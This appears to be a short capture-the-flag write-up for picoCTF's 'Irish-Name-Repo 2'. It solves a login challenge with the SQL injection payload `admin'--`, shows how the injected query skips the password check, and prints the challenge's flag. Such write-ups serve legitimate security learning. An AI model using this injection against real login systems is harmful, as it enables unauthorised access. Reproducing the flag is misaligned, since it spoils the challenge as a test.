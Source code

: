 # Irish-Name-Repo 2

## Description
> There is a website running at `https://jupiter.challenges.picoctf.org/problem/64649/` [link](https://jupiter.challenges.picoctf.org/problem/64649/). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:64649

## Hints
> The password is being filtered.

## Solution
1. In this article, Sql error was prevented when using `' OR 1==1--`. Let's think about another attack that only uses usernames (because password is being filtered).
2. Let's try `admin'--`
``` java
 SELECT username, password FROM users WHERE username='$username' AND password='$password';
 ```
 When we put in our injection, the query becomes:
``` java
SELECT username, password FROM users WHERE username='admin'--' AND password='';
```

## Flag
> picoCTF{m0R3_SQL_plz_aee925db}